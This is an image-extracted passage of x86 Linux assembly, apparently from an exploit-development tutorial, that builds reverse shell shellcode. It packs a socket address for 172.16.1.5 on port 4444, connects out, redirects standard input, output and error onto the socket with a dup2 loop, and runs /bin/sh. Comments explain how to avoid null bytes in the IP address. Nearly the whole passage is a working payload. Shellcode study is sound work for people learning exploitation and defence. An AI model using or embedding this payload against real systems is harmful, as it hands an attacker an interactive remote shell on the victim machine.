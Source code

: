 ```nasm
; Now we build a sockaddr struct representing the IP address and port we want to connect back to.

    push 0x050110ac  ; Push destination IP address, in this case 172.16.1.5

        ; If you need to connect back to an IP with a null byte in it (i.e. one of the octets is zero, such as 10.0.0.5) we need to do extra legwork to push the IP address

        ; for example to use 10.0.0.5:
        ;   add dh, 0x05
        ;   push word dx
        ;   xor edx edx
        ;   add dl, 0xa
        ;   push word dx
        ;   xor edx edx

        ; This will result in this dword being on the stack: 0x0500000a, when we examine a pointer to it byte by byte it is read as 0x0a, 0x00, 0x00, 0x05, our destination IP address.

    push word 0x5c11 ; push port number
    push word bx     ; push 0x02

    inc ebx          ; connect(2)'s socket call id is 3, so we bump ebx up one.
    mov ecx, esp     ; save address to struct in ecx


; And now set up the connect(2) socketcall. Its arguments are identical to bind(2) from our bind shell.
    push 0x10
    push ecx
    push edi
    mov ecx, esp
    int 0x80

; This should return zero, we will continue using the file descriptor from our initial socket(2) call.


; dup2(connection_fd, fd_to_redirect)

    pop ebx             ; A new file descriptor is not returned so must POP the one we've got initially off the stack.
    mov ecx, edx        ; from here on out it's identical to our previous bindshell payload.
    mov cl, 0x02

dup2_loop:
    xor eax, eax
    mov al, 0x3f
    int 0x80
    dec ecx
    jns dup2_loop

; execve /bin/sh

    push edx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    push edx
    mov edx, esp
    push ebx
    mov ecx, esp
    mov al, 0x0b
    int 0x80
```